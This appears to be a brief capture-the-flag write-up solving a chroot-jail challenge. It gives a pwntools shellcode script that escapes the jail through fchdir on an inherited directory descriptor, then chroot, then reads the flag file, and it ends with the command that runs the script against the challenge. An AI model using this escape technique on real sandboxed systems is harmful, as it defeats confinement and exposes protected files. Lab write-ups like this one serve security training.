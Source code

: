 scripts:  
```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcraft.fchdir(3)
shellcode+=shellcraft.chdir("../../../")
shellcode+=shellcraft.chroot(".")
shellcode+=shellcraft.cat('flag')
shellcode=asm(shellcode)
sys.stdout.buffer.write(shellcode)
```
the file input should be a directory, fchdir will return error when file is a regular one:
```
ENOTDIR
              fd does not refer to a directory.
```
last:  
`python3 resolve.py | /challenge/babyjail_level3 /home/hacker/`
